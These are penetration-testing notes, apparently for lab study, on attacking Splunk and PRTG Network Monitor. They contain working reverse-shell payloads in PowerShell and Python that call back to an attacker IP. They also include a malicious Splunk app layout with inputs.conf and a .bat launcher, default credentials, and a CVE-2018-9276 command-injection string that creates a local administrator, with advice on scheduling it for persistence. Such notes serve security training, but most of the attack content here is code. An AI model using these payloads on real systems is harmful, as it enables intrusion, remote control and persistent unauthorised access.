 # **Splunk - Discovery & Enumeration**

**Default Port: 8000**
Older default Credentials :  `admin:changeme`
The Splunk Enterprise trial converts to a free version after 60 days, which doesn’t require authentication.

# **Attacking Splunk**

## **Abusing Built-In Functionality**

[https://github.com/0xjpuff/reverse_shell_splunk](https://github.com/0xjpuff/reverse_shell_splunk)

```
tree splunk_shell/splunk_shell/
├── bin
└── default
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. 

### Windows

Our reverse shell will be a PowerShell one-liner. (save as run.sp1 and locate it at bin directory)

A simple and small reverse shell. Options and help removed to save space.
Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
```powershell
 $client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf)  file tells Splunk which script to run and any other conditions. Here we
 set the app as enabled and tell Splunk to run the script every 10 seconds. 

```
cat inputs.conf 
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner: 

```
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```
tar -cvzf updater.tar.gz splunk_shell/splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

![image.png](../../Images/NMT_image0.png)

### Linux

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. 

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash'
```

# **PRTG Network Monitor**

Default Credentials: `prtgadmin:prtgadmin`.

## Check Version

```bash
curl -s http://10.129.201.50:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

## CVE-2018-9276

Versión: `17.3.33.283`.

When creating a new notification, the `Parameter` field is passed directly into a PowerShell script without any type of input sanitization.

To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

![image.png](../../Images/NMT_image1.png)

Next, click on `Add new notification`.


![image.png](../../Images/NMT_image2.png)

Give the notification a name and scroll down and tick the box next to `EXECUTE PROGRAM`. Under `Program File`, select `Demo exe notification - outfile.ps1` from the drop-down. Finally, in the parameter field, enter a command.  For our purposes, we will add a new local admin user by entering:

```bash
test.txt;net user prtgadm1 Pwn3d_by_PRTG! /add;net localgroup administrators prtgadm1 /add  
```

 During an actual assessment, we may want to do something that does not change the system, such as getting a reverse shell or connection to our favorite C2. Finally, click the `Save` button.

![image.png](../../Images/NMT_image3.png)

After clicking `Save`, we will be redirected to the `Notifications` page and see our new notification named `pwn` in the list.

Now, we could have scheduled the notification to run (and execute our command) at a later time when setting it up. This could prove handy as a persistence mechanism during a long-term engagement and is worth taking note of. Schedules can be modified in the account settings menu if we want to set it up to run at a specific time every day to get our connection back or something of that nature. At this point, all that is left is to click the `Test` button to run our notification and execute the command to add a local admin user. After clicking `Test` we will get a pop-up that says `EXE notification is queued up`. If we receive any sort of error message here, we can go back and double-check the notification settings.

### Testing

```bash
sudo crackmapexec smb 10.129.201.50 -u prtgadm1 -p Pwn3d_by_PRTG
```
